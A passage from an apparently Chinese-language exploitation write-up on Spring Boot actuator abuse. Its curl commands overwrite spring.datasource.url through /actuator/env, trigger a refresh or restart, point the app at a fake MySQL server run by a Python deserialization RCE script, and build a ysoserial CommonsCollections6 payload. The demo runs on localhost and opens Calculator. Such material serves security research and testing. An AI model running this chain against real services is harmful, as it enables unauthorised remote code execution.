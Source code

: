 ```plain
curl -H "Content-Type:application/json" -X POST  --data '{"name":"spring.datasource.url","value":"jdbc url' http://localhost:9097/actuator/env
```

**(2) 刷新配置**

```plain
curl -H "Content-Type:application/json" -X POST  http://localhost:9097/actuator/refresh
```

这里也可以通过`restart`来触发。

```plain
curl -H "content-Type:  application/json" -X POST http://localhost:9097/actuator/restart
```

**(3) 访问数据库操作触发**

先监听 3307，这里注意使用 Py2，利用脚本不支持 Py3，会出错。

```plain
python springboot-jdbc-deserialization-rce.py
```

接下来访问即可。

`curl http://localhost:9097/product/list`

关于这个，其实在真实环境中，都不用自己去触发，自带的其他操作都会导致进行数据库连接。

**(4) 恢复 Spring.datasource.url**

当我们获得 RCE 之后，前面记录的本来的 jdbc url 就可以还原回去了，操作如下。

```plain
curl -H "Content-Type:application/json" -X POST  --data '{"name":"spring.datasource.url","value":"jdbc:mysql://127.0.0.1:3306/test' http://localhost:9097/actuator/env
```

最终，在测试过程，我发现，有请求访问伪造的 mysql 服务，但是 Spring-boot 进程却在序列化的过程中报错退出了，导致命令没有执行成功。

[![](assets/1703152930-3134c3ff7dc5134cef3e32f71de3665b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210620112049-829d34ee-d176-1.png)

这个是 jdk 版本导致的，改用 cc6 来解决

```plain
java -jar ysoserial-0.0.8-SNAPSHOT-all.jar  CommonsCollections6 ' open -a Calculator.app' > payload.ser
```
